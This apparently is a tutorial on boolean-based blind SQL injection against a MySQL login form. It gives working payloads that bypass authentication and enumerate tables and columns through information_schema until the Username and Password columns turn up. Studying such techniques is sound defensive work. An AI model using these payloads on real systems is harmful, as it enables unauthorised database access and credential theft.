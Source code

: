 Boolean-based blind SQL injection is a subtype of blind SQL injection where the attacker observes the behavior of the database server and the application after combining legitimate queries with malicious data using boolean operators.

Example:

A login page with two fields: username and password. We notice that if we put ```'+OR+1=1--+``` inside the username parameter (intercepter with Burp) we obtain a different response than if we pass other data. Due to the comment style we inference that the DB is a MySql DB, in addition we are facing a boolean based SQLi.

Because we don't know anything of the DB, like the number of the table, the columns' names, etc we need to do some enumeration.

We can understand the number of tables present in the DB with the following query:
```sql
username='+OR+(SELECT+COUNT(*)+FROM+information_schema.tables+WHERE+table_schema=database())+>=+0+--+
```
In MySQL the **database()** function return the name of the current DB. This query must return the true response because otherwise there aren't tables inside the current DB.
Then, we can change the number to understand the exact number of tables.

In our case we have only one table. In order to enumerate the name of this one we can do something like:
```sql
username='+OR+SUBSTRING((SELECT+table_name+FROM+information_schema.tables+WHERE+table_schema=database()),1,1)='u'+--+
```
An then:
```sql
username='+OR+SUBSTRING((SELECT+table_name+FROM+information_schema.tables+WHERE+table_schema=database()),2,1)='s'+--+
```

and so on...


Now we know that the table is called "**users**". Now we need to find the columns names inside this table. 

First we want to check how many columns there are in the "users" table:
```sql
username='+OR+(SELECT+COUNT(*)+FROM+information_schema.columns+WHERE+table_schema=database()+AND+TABLE_NAME='users')>3
```

Now we know that the table contains four columns.

In order to enumerate the column names we will use the following:
```sql
username='+OR+SUBSTRING((SELECT+COLUMN_NAME+FROM+information_schema.columns+WHERE+table_schema=database()+AND+TABLE_NAME='users'+LIMIT+1+OFFSET+2),1,1)='P'
```

By these queries we found that the interesting columns for us are '**Username**' and '**Password**'.
